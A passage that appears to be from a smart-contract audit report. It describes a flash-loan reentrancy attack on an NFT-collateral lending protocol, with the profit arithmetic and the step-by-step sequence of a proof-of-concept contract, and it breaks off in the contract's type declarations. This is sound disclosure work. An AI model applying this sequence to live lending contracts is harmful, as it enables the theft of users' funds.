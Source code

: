  - Please note that if Bob applies the same attack with only 3 NFTs (each worth 50k) and borrows 75k, he does not take any profit. Because, the last NFT should be bought 3 times the oracle price (3*50k = 150k) while the total debt was 75k.
 - ***In order to take profit and steal fund, the attacker at least should add 7 NFTs as collateral and borrow the max debt. Because `numberOfNFT * oraclePrice * 50% > oraclePrice * 3`***

In the following PoC, I am showing how the attack can be applied.
Bob deploys the following contract and calls the function `attack()`. It takes flash loan from AAVE, then the callback from the AAVE will execute `executeOperation`. In this function, 10 NFTs with ids 1 to 10 are bought and added as collateral to the protocol. 
Then, it borrows max debt which is almost 250k, and remove the NFT with id 1. 
In the callback of `safeTransferFrom`, the function `onERC721Received` is called, if the number of callback is less than 9, it repeats removal of the NFTs with ids 2 to 9, respectively. 
When NFTs with id 9 is removed, the function `startLiquidationAuction` is called to auction NFT with id 10. Then, this NFT is purchased by BobContract immediately at the start price (which is defined by protocol to be 3 times larger than the oracle price). Then, after the control is returned to the protocol, BobContract sells these 10 NFTs and repays the flash loan.

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

interface ERC721 {}

interface ERC20 {}

struct Collateral {
    ERC721 addr;
    uint256 id;
}
struct OracleInfo {
    Message message;
    Sig sig;
}
struct Message {
    bytes32 id;
    bytes payload;
    uint256 timestamp;
    bytes signature;
}
struct Sig {
    uint8 v;
    bytes32 r;
    bytes32 s;
}
struct Auction {
    address nftOwner;
    uint256 auctionAssetID;
    ERC721 auctionAssetContract;
    uint256 perPeriodDecayPercentWad;
    uint256 secondsInPeriod;
    uint256 startPrice;
    ERC20 paymentAsset;
}

enum PriceKind {
    SPOT,
    TWAP,
    LOWER,
    UPPER
}

interface IPaprController {
    function addCollateral(Collateral[] calldata collateral) external;

```